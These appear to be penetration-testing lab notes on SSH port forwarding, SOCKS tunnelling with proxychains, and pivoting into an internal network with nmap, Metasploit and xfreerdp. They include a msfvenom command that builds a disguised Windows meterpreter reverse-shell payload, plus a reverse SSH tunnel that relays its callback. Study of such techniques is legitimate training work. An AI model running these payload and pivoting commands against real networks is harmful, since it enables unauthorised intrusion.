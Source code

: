 # Dynamic Port Forwarding with SSH and SOCKS Tunneling

## Local Port Forward

```c
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

### Confirming Port Forward with Netstat

```c
$ netstat -antp | grep 1234
```

## Forwarding Multiple Ports

```c
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

##   Enabling Dynamic Port Forwarding with SSH

```c
$ ssh -D 9050 ubuntu@10.129.202.64
```

### config /etc/proxychains.conf

```c
cat /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

###  Nmap with Proxychains

```c
proxychains nmap -v -sn 172.16.5.1-200
```


## Metasploit with Proxychains

```c
proxychains msfconsole
```

### Using rdp_scanner Module

```shell-session
msf6 > search rdp_scanner
```

## Using xfreerdp with Proxychains

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

# Reverse Port Forwarding with SSH

## Creating a Windows Payload with msfvenom

```c
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```c
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

